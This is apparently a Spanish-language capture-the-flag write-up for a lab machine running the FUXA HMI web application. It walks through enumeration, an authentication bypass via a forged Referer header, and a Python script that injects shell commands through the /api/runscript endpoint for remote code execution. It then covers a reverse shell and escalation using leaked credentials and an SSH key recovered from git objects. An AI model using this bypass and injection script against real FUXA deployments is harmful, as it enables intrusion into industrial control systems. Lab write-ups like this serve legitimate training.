

# Contexto


# Enumeracion y analisis
## arp-scan
Primero identificamos a nuestra maquina objetivo.



## ping 

Verificamos si tenemos alcance a la maquina.



## nmap 

Buscamos que puertos estan abiertos.



obtenermos los puerto 22, 80, 1881 hacemos un escaneamos para verificar que servicios corren en estos puertos.



Obtenemos los servicios ssh y  http.

### port 80

#### whatweb 

Verificamos que tecnologias corren en este servicio http.



Concluimos que esta corriendo apache 2.5.66 y que acepta los metodos GET,PUT,POST,DELETE,OPTIONS. Visualizamos como se ve en el navegador.



#### gobuster 

Hacemos fuzz para encontrar endpoints.



Notamos que al no encontrar un endpoint devuelve un **codigo 401** y no un  404, tambien que siempre devuelve una longitud de 67. 
Por el momento resolvemos el problema de la longitud para hacer fuzz.



Esos son los endpoints que obtuvimos. Revisemos el puerto 1881.

### port 1881

#### whatweb

 



#### gobuster 



obtenemos los mismo resultados en ambos puertos.
Revisamos el contenido que nos proporciona el **codigo 401**.



La aplicacion tiene un panel login pero despues de buscar credencial y tratar de usar sqli se concluye que hay que buscar un bypass para saltarse el codigo 401.

Busque el titulo de la pagina con searchsploit y me salio un exploit pero este no funciona , pero me dio la idea de buscar la version de **fuxa** y de casualidad la encontre.





Tenemos un **"FUXA V1.2.8-2638"** asi que buscamos un exploit en internet.

Encontramos este https://www.exploit-db.com/exploits/52544. 



El exploit como tal no funciona pero si te da una forma de bypass ademas de endpoints de **api**.





Es decir se puede hacer bypass con el campo **"Referer: http://URL_OBJETIVO/fuxa"**

asi:



pero nos redirige al dashboard:



Intentamos fuzzear nuevamente pero nos devuelvo los mismos endpoints que encontramos previamente.

Recordemos que el exploit nos mostraba endpoints de api, hacemos fuzz buscando mas endpoinds relacionados con api.



Revisamos el contenido de esto endpoints.



vemos que el contenido de **'/api/project'** es muy extenso, la parte que mas nos interesa y se relaciona con el exploit anterior es la siguiente.



Entonces, el exploit que encontramos previamente intentaba insertar codigo js para hacer el RCE pero no tiene exito, la clave de esta maquina era aprovechar los scripts existentes.

gran parte del siguiente script fue sacado de aqui https://github.com/setyanoegraha/hackmyvm-writeups/blob/main/machines/fuxa/fuxa.md  ya que leyendo el script me di cuenta que no habia que insertar codigo js al sistema sino aprovechar el script existe en el sistema.

    import requests
    import urllib3
    import json

    urllib3.disable_warnings()

    url = "http://IP_OBJETIVO/api/runscript"

    injection = '$( COMANDO_A_EJECUTAR >&2)'

    payload = {
    'headers': {
    'normalizedNames': {},
    'lazyUpdate': None,
    'lazyInit': None
    },
    'params': {
    'script': {
    'id': 's_maint_preview_bundle',
    'name': 'asset_cache_preview',
    'code': 'placeholder',
    'sync': False,
    'parameters': [{
    'name': 'pattern',
    'type': 'value',
    'value': injection
    }],
    'permission': None,
    'mode': 'SERVER'
    },
    'toLogEvent': False
    }
    }

    try:
    r = requests.post(
    url,
    headers={
    "Content-Type": "application/json",
    "Referer": "http://IP_OBJETIVO/fuxa"
    },
    json=payload,
    timeout=30,
    verify=False
    )

    print("Status:", r.status_code)
    print("Content-Type:", r.headers.get("Content-Type"))

    try:
    data = r.json()

    print("Response type:", type(data).__name__)

    if isinstance(data, dict):
    print("STDOUT:", data.get("stdout", ""))
    print("STDERR:", data.get("stderr", ""))
    print("Response:", json.dumps(data, indent=4))
    else:
    print("Response:", data)

    except ValueError:
    print("Respuesta no JSON:")
    print(r.text)

    except requests.RequestException as e:
    print("Error HTTP:", e)

Ejecutamos el comando **"id"** y vemos que tiene efecto.



Ahora ejecutamos una revershell.



# Escalada de www-data a git

Nos pasamos el **"pspy64"** a nuestra maquina objetivo para ver procesos que se ejecutan automaticamente.



## pspy

La parte mas importante es esta linea que ejecuta este archivo **"/opt/fuxa/FUXA/server/scripts/local-sync.sh"**.



Dentro del script obtenemos credenciales.



y podemos ver la bandera.





# Escalada de git a root

El archivo anterior estaba dentro de una carpeta que me llamo la atencion **/opt**. asi que revisamos esta carpeta.



la carpeta que nos interesa es **'.cache-loader'**.



Despues de darle vueltas y vueltas , resulta que la carpeta **state** tiene una estructura de carpetas similar a un repositorio de git mas especifico a la de la carpeta **".git"**.

ya que esta carpeta solo es un pedaso de un repositorio de git el comando git no la detecta para esto se tiene que especificar usando variables de entorno.

revisamos si hay commits.

No tenemos commits, recordemos que git no guarda archivos como tal sino guarda objetos uno de esos objetos es **commit** otro es **tag** y otro es **blob** https://www.graphapp.ai/engineering-glossary/git/git-object-types-blob-tree-commit-tag .

Asi que revisamos si hay blob.



Vemos una key ssh revisamos de quien es.



La guardamos y nos conectamos con ssh.



y podemos ver la bandera.

